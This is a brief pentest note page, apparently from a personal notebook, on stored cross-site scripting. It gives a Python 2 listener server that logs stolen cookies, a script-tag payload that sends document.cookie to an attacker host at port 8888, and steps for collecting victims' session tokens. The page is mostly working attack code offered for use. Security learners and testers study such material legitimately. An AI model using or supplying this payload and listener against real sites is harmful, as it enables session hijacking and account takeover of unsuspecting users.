 ```yaml
---
title: XSS attacks 💀
---
```


- When performing an stored XSS, we have the following useful script (python2):

```python
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)

        return

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    try:
        server = HTTPServer(('0.0.0.0', 8888), MyHandler)
        print('Started http server')
        server.serve_forever()
    except KeyboardInterrupt:
        print('^C received, shutting down server')
        server.socket.close()
```

- Execute it
- Then we insert on the webpage the following XSS:

```shell
<script>
   image = new Image();
   image.src='http://IP_ATTCK:8888/?'+document.cookie;
</script>
```

- Then we should get some session tokens like this (when someone clicks on it):

![](Pasted%20image%2020240210145953.png)
